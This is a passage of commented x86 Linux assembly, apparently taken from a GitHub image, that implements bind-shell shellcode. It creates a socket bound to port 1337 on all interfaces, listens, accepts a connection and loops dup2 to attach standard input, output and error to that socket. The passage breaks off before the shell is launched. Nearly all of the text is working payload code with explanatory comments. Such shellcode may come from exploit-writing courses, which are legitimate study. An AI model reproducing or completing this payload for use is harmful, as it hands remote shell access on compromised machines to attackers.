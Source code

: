       
        xchg esi, eax       ; sockfd is now stored in esi  
      
        ;  
        ; bind(sockfd, {sa_family=AF_INET, sin_port=htons(1337), sin_addr=inet_addr("0.0.0.0")}, 16)  
        ;  
        push edx            ; sockaddr.sin_addr.s_addr: INADDR_ANY = 0  
        inc ebx             ; EBX = 0x2 | #define SYS_BIND 2  
        push word 0x3905    ; sockaddr.sin_port   : PORT = 1337 (big endian)  
        push bx             ; sockaddr.sin_family : AF_INET = 2  
        mov ecx, esp        ; ECX holds pointer to struct sockaddr  
      
        push byte 0x10      ; sizeof(sockaddr)  
        push ecx            ; pointer to sockaddr  
        push esi            ; sockfd  
        mov ecx, esp        ; ECX points to args  
        push byte 0x66      ; socketcall()  
        pop eax  
        int 0x80  
      
        ;  
        ; listen(sockfd, 2)  
        ;  
        push ebx            ; queueLimit = 2  
        push esi            ; sockfd stored in esi  
        mov ecx, esp        ; ECX points to args  
        push byte 0x66      ; socketcall()  
        pop eax   
        inc ebx  
        inc ebx             ; #define SYS_LISTEN 4  
        int 0x80  
          
        ;  
        ; accept(int sockfd, NULL, NULL);  
        ; From man 2 accept: When addr is NULL, nothing is filled in;   
        ; in this case, addrlen is not used, and should also be NULL.  
        ;  
        push edx            ; Push NULL  
        push edx            ; Push NULL  
        push esi            ; Push sockfd  
        mov ecx, esp        ; ECX points to args  
        inc ebx             ; #define SYS_ACCEPT 5  
        mov al, 0x66        ; socketcall()  
        int 0x80  
          
        ;  
        ; dup2(ebx, {0,1,2})  
        ;  
        xchg ebx, eax       ; EAX = 0x5, EBX = new_sockfd  
        xor ecx, ecx        ; ECX = 0  
    lbl:  
        mov al, 0x3f        ; dup2()  
        int 0x80  
        inc ecx             ; Iterate over {0,1,2}  
        cmp cl, 0x4         ; Are we done?  
        jne lbl             ; Nope  
          